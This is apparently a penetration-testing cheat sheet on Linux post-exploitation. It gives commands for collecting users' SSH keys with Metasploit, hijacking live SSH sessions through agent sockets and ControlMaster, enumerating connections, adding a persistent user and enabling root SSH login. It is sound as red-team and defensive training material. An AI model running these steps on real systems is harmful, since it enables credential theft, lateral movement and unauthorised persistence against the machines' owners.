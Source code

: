 # Linux - Post-Exploit

### Credentials dumping

###### SSH keys exfiltration

The metasploit module post/multi/gather/ssh_creds will collect the contents of
all users' .ssh directories on the targeted machine. Additionally,
known_hosts and authorized_keys and any other files are also downloaded.

```
msf > use post/multi/gather/ssh_creds
```

Lateral movement through SSH brute force is possible using private SSH keys,
refer to the [L7] SSH note.

### SSH hijacking

Established SSH sessions can be hijacked to move laterally using the hijacked
user identity with out knowledge of its password or private key.

If SSH connection multiplexing, using the `ControlMaster` feature, or `Agent
forwarding` are enabled, the SSH sessions stored on the compromised system
can be hijacked:
  - connection multiplexing allows for the hijacking of SSH connections made
  from the compromised host
  - `Agent forwarding` allows for the hijacking of SSH connections made to the
  remote host

###### Prerequisites

*ControlMaster*

The SSH `ControlMaster` feature permits the multiplexing, the ability to send
more than one signal over a single line or connection, of SSH connections.
The feature can be enabled and configured both in global or local `ssh_config`:
 `/etc/ssh/ssh_config` or `~/.ssh/config`. Note that `ControlMaster` is enabled
 by default.

If enabled, a control socket will be created on the file system and will be
reused for future connections of the given user to the remote host with out
needing a re-authentication. Control sockets are stored at the location
specified by the `ControlPath` directive. The directive
`ControlPath /tmp/ssh-%r@%h:%p` for example will result in control sockets
stored in `/tmp`: `/tmp/ssh-XXXXXXXXXXXX`.

Note that control sockets will be removed automatically after the master
connection has ended if the `ControlPersist` directive is not configured.
Otherwise, if `ControlPersist` is specified and set to:
  -  `yes`, then the master connection will remain open in the background to
  accept new connections until either killed explicitly or closed with -O ;
  - a time, then the master connection will remain open for the designated time
  or until the last multiplexed session is closed.

The `ControlMaster` feature can be enabled using the following commands:

```
# under Host *, which can be added if needed
echo "Host *" >> /etc/ssh/ssh_config
echo "    ControlMaster auto" >> /etc/ssh/ssh_config
echo "    ControlPersist yes
echo "    ControlPath /tmp/ssh-%r@%h:%p
```

*Agent authentication and forwarding*

`ssh-agent` is an helper program that implements an authentication mechanism
used by `OpenSSH` as a form of SSO. The programs will hold in memory private
keys used for public key authentication so that SSH connections can be made
using the agent directly in order to avoid re entering the private key password
for each connection.

For interfacing with the `ssh` client, the agent provides a UNIX socket at
`/tmp/ssh-<RANDOM>/agent.<AGENT_PID>` and publishes it in the `SSH_AUTH_SOCK`
environment variable.

When `Agent Forwarding` is enabled client-side, either using the `AgentForward`
flag or calling `ssh` with the `-A` option, an SSH agent will be kept on the
remote system accessed in SSH. This allows for a second connection, using SSH,
from this first remote system to a second, or multiple, remote systems with out
the need to deploy the private keys on the first remote system.    
The UNIX socket at `/tmp/ssh-<RANDOM>/agent.<AGENT_PID>` will thus be available
on the first remote system.

Given sufficient permissions on the compromised system, such as `root`
privileges, the socket agent can be hijacked in order to make SSH connection
under the identity of the user running `ssh-agent` with out the need to have
access to its private key (or know its private key password).

###### Connected SSH connections

While there is not direct and explicit way of showing all connected SSH
connections, multiples commands can be used to enumerate active and past SSH
connections using current process, `TTY` sessions or active network connections.

Note that `w` / `who` and `lastlog` will show all the `TTY` sessions including
the terminal and SSH sessions. As the terminal and SSH connections both create a
pseudo-terminal device `pts`, the utility can't be used to distinguish them.   

The `pspy` tool can be used to monitor short lived SSH connections that could be
made using automated utilities to remotely execute commands.

```
# Processes
# sshd: <USERNAME>@pts/1
pgrep -ai sshd
ps auxwww | grep sshd:

# Network connections
# Retrieve sshd port and then established network connection from the port, as shown in the example below
# 0.0.0.0:22              0.0.0.0:*               LISTEN      10/sshd
# x.x.x.x:22              x.x.x.x:40302           ESTABLISHED
netstat -anop

# Active connections
w 2>/dev/null
who -a

# Last connections
lastlog 2>/dev/null |grep -v "Never"

# sshd logs
cat /var/log/sshd.log | grep session
cat /var/log/sshd.log | grep session | grep <USERNAME>

# Short lived SSH connections
pspy
pspy64
```

If present, the control sockets should be accessible in the folder specified by
the `ControlPath` directive in the global or local `ssh_config`.

###### Hijack an SSH connection

The following commands can be used to hijack an SSH agent deployed on the
compromised server using `Agent forwarding`.

In order the find the username, PID and remote host of the SSH agent on the
compromised system, the commands above can be used.

```
# pgrep / ps to find the PID of running sshd process
# netstat to identify the connection origin
# grep SSH_AUTH_SOCK /proc/<PID>/environ to retrieve the corresponding agent socket

export SSH_AUTH_SOCK="/tmp/<ssh-RANDOM>/<agent.PID>"
ssh -p <PORT> <USERNAME>@<HOSTNAME | IP>
```

### Persistence

###### Add local user with SUDOERS privileges

```
adduser <USERNAME>

# RedHat / CentOS / Fedora
passwd <USERNAME>
```

### Manager

###### SSH server

Check if an `SSH` server is already running:

```
# Ubuntu / Debian / RedHat / CentOS / Fedora

# Retrieves the status of the ssh service on the system if the service is installed.
sudo systemctl status ssh

# Lists the processes running on the system and searches for processes related to SSH.
ps aux | grep -i ssh

# Lists the listening services.
netstat -laputen
```

If no `SSH` service is configured, check if an `SSH` server, such as
`openssh-server`, is installed on the targeted system:

```
# Ubuntu / Debian
dpkg -l | grep -i ssh

# RedHat / CentOS / Fedora
rpm -qa | grep -i ssh
```

Modify the `SSH` daemon (`SSHD`) configuration file, usually in
`/etc/ssh/sshd_config` to allow login (of `root` or others users):

```
# SSHD config file.

# Allow login of the root account.
# If "AllowUsers" is defined further in the configuration file, it must specify "root" otherwise the root account will not be able to login (despite setting PermitRootLogin to yes).
# without-password: require login using an SSH key for the root account.
PermitRootLogin <yes | without-password>

# AllowUsers
# If specified with arguments, login are restricted to the define users.
# By default, AllowUsers is not specified and login is allowed for all users.
AllowUsers <root | <USERNAME>>
```

Starts the `SSH` service:

```
# Ubuntu / Debian / RedHat / CentOS

systemctl start ssh

systemctl restart ssh

systemctl stop ssh
```
